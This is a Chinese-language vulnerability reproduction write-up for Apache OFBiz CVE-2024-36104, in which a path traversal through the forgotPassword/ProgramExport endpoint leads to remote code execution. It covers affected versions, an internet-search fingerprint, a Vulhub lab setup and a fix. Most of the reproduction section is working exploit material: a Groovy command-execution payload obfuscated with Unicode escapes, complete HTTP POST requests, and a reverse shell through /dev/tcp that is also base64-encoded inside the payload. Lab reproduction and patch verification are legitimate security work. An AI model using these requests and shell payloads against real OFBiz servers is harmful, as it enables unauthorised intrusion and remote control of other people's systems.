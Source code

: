 # Apache OFBiz 目录遍历致代码执行漏洞 CVE-2024-36104

## 漏洞描述

Apache OFBiz 是一个电子商务平台，用于构建大中型企业级、跨平台、跨数据库、跨应用服务器的多层、分布式电子商务类应用系统。

Apache OFBiz 版本 18.12.14 之前版本中存在路径遍历漏洞，由于对 HTTP 请求 URL 中的特殊字符（如 `；、%2e`）限制不当，攻击者可构造恶意请求绕过验证并利用相关接口功能导致远程代码执行。

参考链接：

- https://ofbiz.apache.org/security.html
- https://issues.apache.org/jira/browse/OFBIZ-13092
- https://github.com/apache/ofbiz-framework/commit/d33ce31012

## 漏洞影响

```
Apache OFBiz < 18.12.14
```

## 网络测绘

```
app="Apache_OFBiz"
```

## 环境搭建

Vulhub 启动一个 18.12.09 版本 Apache OFBiz。

docker-compose.yml：

```
version: '2'
services:
 web:
   image: vulhub/ofbiz:18.12.09
   ports:
    - "8443:8443"
    - "5005:5005"
```

在等待数分钟后，访问 `https://your-ip:8443/accounting` 查看到登录页面，说明环境已启动成功。

如果是非本地 localhost 启动，Headers 需要包含 `Host: localhost`，否则报错：

```
ERROR MESSAGE
org.apache.ofbiz.webapp.control.RequestHandlerException: Domain xx.xx.xx.xx not accepted to prevent host header injection. You need to set host-headers-allowed property in security.properties file.
```

![](images/Apache%20OFBiz%20目录遍历致代码执行漏洞%20CVE-2024-36104/image-20240612165100299.png)

## 漏洞复现

Unicode 编码：

```shell
# CVE-2024-36104 Payload
throw new Exception('id'.execute().text);

# Escape Unicode Characters
\u0074\u0068\u0072\u006F\u0077\u0020\u006E\u0065\u0077\u0020\u0045\u0078\u0063\u0065\u0070\u0074\u0069\u006F\u006E\u0028\u0027\u0069\u0064\u0027\u002E\u0065\u0078\u0065\u0063\u0075\u0074\u0065\u0028\u0029\u002E\u0074\u0065\u0078\u0074\u0029\u003B
```

![](images/Apache%20OFBiz%20目录遍历致代码执行漏洞%20CVE-2024-36104/image-20240612164521377.png)

poc：

```
POST /webtools/control/forgotPassword/ProgramExport HTTP/1.1
Host: localhost:8443
Content-Length: 342
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36
Accept: */*

groovyProgram=\u0074\u0068\u0072\u006F\u0077\u0020\u006E\u0065\u0077\u0020\u0045\u0078\u0063\u0065\u0070\u0074\u0069\u006F\u006E\u0028\u0027\u0069\u0064\u0027\u002E\u0065\u0078\u0065\u0063\u0075\u0074\u0065\u0028\u0029\u002E\u0074\u0065\u0078\u0074\u0029\u003B
```

![](images/Apache%20OFBiz%20目录遍历致代码执行漏洞%20CVE-2024-36104/image-20240612165410448.png)

反弹 shell：

```shell
/bin/bash -i >& /dev/tcp/127.0.0.1/8888 0>&1

# java.lang.Runtime.exec() Payload
bash -c {echo,L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEyNy4wLjAuMS84ODg4IDA+JjE=}|{base64,-d}|{bash,-i}

# CVE-2024-36104 Payload
throw new Exception('bash -c {echo,L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEyNy4wLjAuMS84ODg4IDA+JjE=}|{base64,-d}|{bash,-i}'.execute().text);

# Escape Unicode Characters
\u0074\u0068\u0072\u006F\u0077\u0020\u006E\u0065\u0077\u0020\u0045\u0078\u0063\u0065\u0070\u0074\u0069\u006F\u006E\u0028\u0027\u0062\u0061\u0073\u0068\u0020\u002D\u0063\u0020\u007B\u0065\u0063\u0068\u006F\u002C\u004C\u0032\u004A\u0070\u0062\u0069\u0039\u0069\u0059\u0058\u004E\u006F\u0049\u0043\u0031\u0070\u0049\u0044\u0034\u006D\u0049\u0043\u0039\u006B\u005A\u0058\u0059\u0076\u0064\u0047\u004E\u0077\u004C\u007A\u0045\u0079\u004E\u0079\u0034\u0077\u004C\u006A\u0041\u0075\u004D\u0053\u0038\u0034\u004F\u0044\u0067\u0034\u0049\u0044\u0041\u002B\u004A\u006A\u0045\u003D\u007D\u007C\u007B\u0062\u0061\u0073\u0065\u0036\u0034\u002C\u002D\u0064\u007D\u007C\u007B\u0062\u0061\u0073\u0068\u002C\u002D\u0069\u007D\u0027\u002E\u0065\u0078\u0065\u0063\u0075\u0074\u0065\u0028\u0029\u002E\u0074\u0065\u0078\u0074\u0029\u003B
```

```
POST /webtools/control/forgotPassword/ProgramExport HTTP/1.1
Host: localhost:8443
Content-Length: 342
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36
Accept: */*

groovyProgram=\u0074\u0068\u0072\u006F\u0077\u0020\u006E\u0065\u0077\u0020\u0045\u0078\u0063\u0065\u0070\u0074\u0069\u006F\u006E\u0028\u0027\u0062\u0061\u0073\u0068\u0020\u002D\u0063\u0020\u007B\u0065\u0063\u0068\u006F\u002C\u004C\u0032\u004A\u0070\u0062\u0069\u0039\u0069\u0059\u0058\u004E\u006F\u0049\u0043\u0031\u0070\u0049\u0044\u0034\u006D\u0049\u0043\u0039\u006B\u005A\u0058\u0059\u0076\u0064\u0047\u004E\u0077\u004C\u007A\u0045\u0079\u004E\u0079\u0034\u0077\u004C\u006A\u0041\u0075\u004D\u0053\u0038\u0034\u004F\u0044\u0067\u0034\u0049\u0044\u0041\u002B\u004A\u006A\u0045\u003D\u007D\u007C\u007B\u0062\u0061\u0073\u0065\u0036\u0034\u002C\u002D\u0064\u007D\u007C\u007B\u0062\u0061\u0073\u0068\u002C\u002D\u0069\u007D\u0027\u002E\u0065\u0078\u0065\u0063\u0075\u0074\u0065\u0028\u0029\u002E\u0074\u0065\u0078\u0074\u0029\u003B
```

![](images/Apache%20OFBiz%20目录遍历致代码执行漏洞%20CVE-2024-36104/image-20240612165908282.png)

## 漏洞修复

目前该漏洞已经修复，受影响用户可升级到 Apache OFBiz 18.12.14 或更高版本。下载链接：

- https://ofbiz.apache.org/download.html
